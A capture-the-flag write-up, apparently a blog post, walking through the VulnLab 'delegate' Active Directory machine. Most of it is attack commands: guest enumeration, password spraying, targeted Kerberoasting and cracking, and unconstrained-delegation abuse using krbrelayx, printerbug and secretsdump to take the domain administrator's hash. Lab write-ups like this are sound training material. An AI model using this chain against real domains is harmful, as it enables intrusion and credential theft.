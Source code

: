 ```yaml
---
layout: post
title:  "VulnLab | delegate"
description: "Walkthrough of delegate machine, a medium rated box from VulnLab"
date: "2024-11-30"
pin: true
image:
  path: ../assets/img/ctf/vulnlab/delegate/delegate1.png
  alt: "delegate.vl"
category: "VulnLab"
tags: ["Active Directory", "Guest account", "GenericWrite", "targetedKerberoast" ,"SeEnableDelegationPrivilege"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[delegate](https://www.vulnlab.com/machines) is a medium rated windows box from vulnlab. The foothold consite of abusing the guest account to enumerate users and access the SYSVOL share that contains a script leaking a password. Next we abuse GenericWrite right to perfom targeted kerberoating and get a user that is member of Remote Management Users group. The Privilege Escalation Path is straight forward and invole abusing SeEnableDelegationPrivilege privilege.

------------------------------------------------------------------------------------------

## Enumeration
We start by a full scan to discover all tcp opened ports...
### All Open Ports
```bash
rustscan -a 10.10.69.133
```
### Services Scanning
```bash
nmap -p... -sC -sV -v -oN delegate.full 10.10.69.133
```
```text
# Nmap 7.94SVN scan initiated Thu Nov 21 21:27:36 2024 as: nmap -p53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,47001,49664,49665,49666,49667,49669,49670,49672,49682,49686,49691,65415 -sC -sV -v -oN delegate.full 10.10.69.133
Nmap scan report for 10.10.69.133
Host is up (0.056s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-21 20:27:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-11-21T20:29:17+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC1.delegate.vl
| Issuer: commonName=DC1.delegate.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-20T20:20:45
| Not valid after:  2025-05-22T20:20:45
| MD5:   9574:a383:8a2f:28ac:b87d:2074:0133:e185
|_SHA-1: 26be:188b:83fe:9406:9480:6d30:806e:cbb2:0858:c5a9
| rdp-ntlm-info: 
|   Target_Name: DELEGATE
|   NetBIOS_Domain_Name: DELEGATE
|   NetBIOS_Computer_Name: DC1
|   DNS_Domain_Name: delegate.vl
|   DNS_Computer_Name: DC1.delegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-11-21T20:28:37+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49672/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
65415/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-21T20:28:39
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 21 21:29:19 2024 -- 1 IP address (1 host up) scanned in 103.88 seconds
```
### Hostname
```bash
echo '10.10.69.133 delegate.vl DC1.delegate.vl' >> /etc/hosts
```

## Foothold
```bash
lookupsid.py guest@delegate.vl -no-pass
nxc smb delegate.vl -u guest -p '' --rid-brute 10000
```
![Users](./assets/img/ctf/vulnlab/delegate/delegate3.png)

![users and description](./assets/img/ctf/vulnlab/delegate/delegate4.png)
```text
A.Briggs
b.Brown
R.Cooper
J.Roberts
N.Thompson
```
```bash
nxc smb delegate.vl -u guest -p '' --shares
```
![Shares](./assets/img/ctf/vulnlab/delegate/delegate5.png)

```bash
nxc smb delegate.vl -u guest -p '' -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./output
```
![spider_plus](../assets/img/ctf/vulnlab/delegate/delegate6.png)
![spider_plus](../assets/img/ctf/vulnlab/delegate/delegate7.png)
![spider_plus](../assets/img/ctf/vulnlab/delegate/delegate8.png)

```bash
nxc smb delegate.vl -u users.txt -p 'fakepassword' --continue-on-success
```
![spraying](../assets/img/ctf/vulnlab/delegate/delegate9.png)

```bash
ldapdomaindump  'ldap://delegate.vl' -u 'delegate.vl\A.Briggs' -p 'fakepassword' -o lootme
```
![ldapdomaindump](../assets/img/ctf/vulnlab/delegate/delegate10.png)
![ldapdomaindump](../assets/img/ctf/vulnlab/delegate/delegate11.png)

```bash
nxc ldap delegate.vl -u A.Briggs -p 'fakepassword' -M daclread -o TARGET=N.Thompson ACTION=read PRINCIPAL=A.Briggs
```
![nxc readacl](../assets/img/ctf/vulnlab/delegate/delegate12.png)

```sh
dacledit.py -action 'read' -principal 'A.Briggs' -target 'N.Thompson' "delegate.vl"/"A.Briggs":"fakepassword"
```
![dacledit](../assets/img/ctf/vulnlab/delegate/delegate13.png)

```sh
targetedKerberoast.py -v -d delegate.vl -u A.Briggs -p 'fakepassword' --request-user N.Thompson
```
![kerberoasting](../assets/img/ctf/vulnlab/delegate/delegate14.png)
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt john.txt
```
![jtr](../assets/img/ctf/vulnlab/delegate/delegate15.png)

```bash
nxc winrm delegate.vl -u N.Thompson -p 'fakepassword'
```
![validation](../assets/img/ctf/vulnlab/delegate/delegate16.png)
```bash
evil-winrm -i delegate.vl -u N.Thompson -p 'fakepassword'
```
![evil-winrm](../assets/img/ctf/vulnlab/delegate/delegate17.png)

## Privilege Escalation
Our current user N.Thompson has SeEnableDelegationPrivilege on the DC...
```powershell
whoami /priv
```
![whoami](../assets/img/ctf/vulnlab/delegate/delegate18.png)

```bash
addcomputer.py 'delegate.vl/N.Thompson:fakepassword' -method SAMR -computer-name 'hackerpc' -computer-pass 'Password1@'
```
![hackerpc](../assets/img/ctf/vulnlab/delegate/delegate19.png)
![hackperc2](../assets/img/ctf/vulnlab/delegate/delegate20.png)

```bash
Set-ADComputer -Identity 'hackerpc' -TrustedForDelegation $true
Get-DomainComputer -Unconstrained

findDelegation.py "delegate.vl"/"N.Thompson":"fakepassword"
```
![delegation](../assets/img/ctf/vulnlab/delegate/delegate21.png)

```bash
addspn.py -u 'delegate.vl\hackerpc$' -p 'Password1@' -s 'HOST/hacker.delegate.vl'  ldap://delegate.vl
```
![spn](../assets/img/ctf/vulnlab/delegate/delegate22.png)

```bash
dnstool.py -u 'delegate.vl\hackerpc$' -p 'Password1@' -r hacker.delegate.vl -a add -t A -d 10.8.4.67 10.10.69.133
```
![dnstool](../assets/img/ctf/vulnlab/delegate/delegate23.png)
![nslookup](../assets/img/ctf/vulnlab/delegate/delegate24.png)

```bash
krbrelayx.py --krbsalt 'DELEGATE.VLhosthackerpc.delegate.vl' --krbpass 'Password1@' -dc-ip 10.10.69.133
```
![krbrelayx](../assets/img/ctf/vulnlab/delegate/delegate25.png)

```bash
printerbug.py DELEGATE/'hackerpc$':'Password1@'@10.10.69.133 hacker.delegate.vl
```
![printer bug](../assets/img/ctf/vulnlab/delegate/delegate26.png)

```bash
mv DC1\$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache delegate.ccache

export KRB5CCNAME=/home/kali/vulnlab/delegate/delegate.ccache

secretsdump.py -no-pass -k DC1.delegate.vl -just-dc-user administrator -just-dc-ntlm
```
![local secretsdump](../assets/img/ctf/vulnlab/delegate/delegate27.png)

```bash
evil-winrm -i delegate.vl -u Administrator -H c32198ce***************
```
![da evil winrm](../assets/img/ctf/vulnlab/delegate/delegate28.png)

## Kill Chain Summary
1. Guest account to enumerate users and access the SYSVOL share.
2. GenericWrte Abuse to perform a targeted kerberoasting attack.
3. SeEnableDelegationPrivilege to perform unconstrained delegation.
  

## References
[targeted kerberoast](https://www.thehacker.recipes/ad/movement/dacl/targeted-kerberoasting)<br>
[nxc read acl](https://www.netexec.wiki/ldap-protocol/read-dacl-right)<br>
[SeEnableDelegationPrivilege](https://harmj4.rssing.com/chan-30881824/article60.html)<br>
[KUD](https://www.thehacker.recipes/ad/movement/kerberos/delegations/unconstrained)<br>

